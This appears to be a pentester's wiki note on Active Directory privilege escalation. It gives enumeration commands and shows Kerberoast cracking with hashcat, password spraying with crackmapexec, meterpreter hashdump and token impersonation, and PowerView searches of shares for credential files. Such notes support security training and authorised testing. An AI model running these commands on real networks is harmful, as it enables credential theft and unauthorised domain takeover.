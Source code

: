 # Active Directory Privilege Escalation
For exploitation see [[AD-Exploitation-Hub]] or general theory and definitions [[Active-Directory-Defined]]. For commands cheatsheet [[Active-Directory-Commands]] or for enumeration see [[Active-Directory-Enumeration]]. [[Network-Services]] are used extensive, especially [[DNS-Theory]] in AD networks.

## Scripts
[ADAPE](https://github.com/hausec/ADAPE-Script)

## General Enumeration
[[Active-Directory-Enumeration]] for more detail whys and hows.
```powershell
net user /domain # User account fo r \\DC*.*domain*.*tld
net user *admin* /domain # information about the admin
net group /domain # All groups in domain
```

```powershell
ipconfig /displaydns	# Get DC ip
Get-ADForest | Select-Object Domains								# Lists all Domains in Forest
Get-ADTrust -Filter * | Select-Object Direction,Source,Target					# List trust information
dsquery group -name "Domain Admins" | dsget group -expand -members				# Query for all DCs
Get-ADDomain | Select-Object NetBIOSName, DNSRoot, InfrastructureMaster				# List all DCs
Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description.length -gt 8 } 	# Searching AD replace *!
```

Windows Functions:
```powershell
NetWkstaUserEnum #(requires Administrative privileges returns a list of active users on a workstation that admin has local administrator privileges over) - Use Post for Movement
NetSessionEnum # returns list of list of active user sessions on servers 
# enumerate all active users' sessions
```


## Tools

#### DNS
For more about [[DNS-Theory]], for enumeration for DNS see both 
[[DNS-Recon-Active]] and [[DNS-Recon-Passive]].
#### SMB enumeration tools
See [SMB tool](SMB-Recon-Cheatsheet.md) and [[RPCClient-Cheatsheet]]
#### LDAP
[[LDAP-Recon]]
#### Bloodhound and Sharphound

[Sharphound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) is the collector that gathers all the information abnout the 
network and compresses it into a zip file. You can then import this data and view a map of the AD domain. This very import to see weak points
like DCsyncs, Usernames, Trust 

#### Empire and Starkiller
[[Empire]]

Rubeus, Seatbelt, Mimikatz...

#### Hashcat/JtR
`hashcat -m 13100 -a 0 hash.txt rockyou.txt`

#### Impacket
[[Impacket-Cheatsheet]]

#### Kerbrute
See [[Kerbrute-Cheatsheet]]

#### Crackmapexec
See [[Crackmapexec-Cheatsheet]]

You want to target the subnet and then as you laterally move through the network the Adminstrators and DCs.
`crackmapexec smb $IP -u users.txt -p passes.txt`

#### Metasploit and Proxychains

Metasploit combined with proxychains can used to pivot and access segmented sections of network.
The shells create route through then inaccessable parts of the network can be mapped beyond the shell's address.
To proxy through the network see sections on [[Proxies]] and [[Pivoting-and-Proxying-with-Metasploit]] 

Due to Trusts, pivoting in required to hop to the connection between Domains. 
Trust can be: 
1. Directional - The direction of the trusts flows from a trusting domain to a trusted domain.
1. Transitive - The trust relationship expands beyond just two domains to include other trusted domains.

If inclined meterpreter and its commands:
```meterpreter
migrate 	# Don't forget to migrate to better processes as processes die: lsass.exe
hashdump

use incognito
list_token -u
impersonate_token $TOKEN
```

#### Powerview
PowerView "is a powershell tool to gain network situational awareness one Windows domains." For a good concatenation of all the [[Powerview-Cheatsheet]]s see follow the link.
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Due to AD commands are a restricted to DCs and some(times) Adminstrators. Get PowerView on the box, you need some help.
```powershell
. .\PowerView.ps1				# import PowerView
Import Module PowerView.ps1			
Get-NetDomain					# Like ADDomain but lists less information
Get-NetDomainController				# List all Domain Controller
Get-NetForest					# like AdForest
Get-NetDomainTrust				# like NetDomainTrust

Find-InterestingDomainShareFile
-CheckAccess
*password*
*sensitive*
*admin*
*login*
*secret*
*unattend*.xml
*vmdk
*creds*
*credential*
*.config
```

